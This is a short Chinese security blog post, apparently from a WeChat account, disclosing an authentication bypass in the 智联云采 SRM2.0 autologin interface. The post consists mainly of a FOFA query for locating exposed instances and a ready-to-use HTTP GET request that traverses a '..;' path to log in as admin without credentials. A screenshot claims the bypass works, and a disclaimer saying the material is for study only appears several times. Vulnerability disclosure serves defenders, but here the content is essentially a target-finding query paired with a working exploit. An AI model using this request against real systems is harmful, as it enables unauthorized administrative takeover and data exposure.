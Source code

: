 #  智联云采 SRM2.0系统接口 autologin 身份认证绕过漏洞  
 HK安全小屋   2025-06-07 14:01  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
由于智联云采 SRM2.0 autologin 接口代码逻辑存在缺陷，导致未授权的攻击者可以构造特殊绕过身份认证直接以管理员身份接管后台，造成信息泄露，使系统处于极不安全的状态。  
  
  
影响版本：  
  
智联云采 SRM2.0  
  
  
FOFA:  
```
title=="SRM 2.0"
```  
  
  
POC：  
```
GET /adpweb/static/..;/api/sys/app/autologin?loginName=admin HTTP/1.1
Host: 
```  
  
成功绕过身份认证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI1L6431Toea9YoflP65iabxgLmy0qxaDXNmZviae0pgQxrwliauRickyreJj1GK1FGrzAcM4bfQo2gbeQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
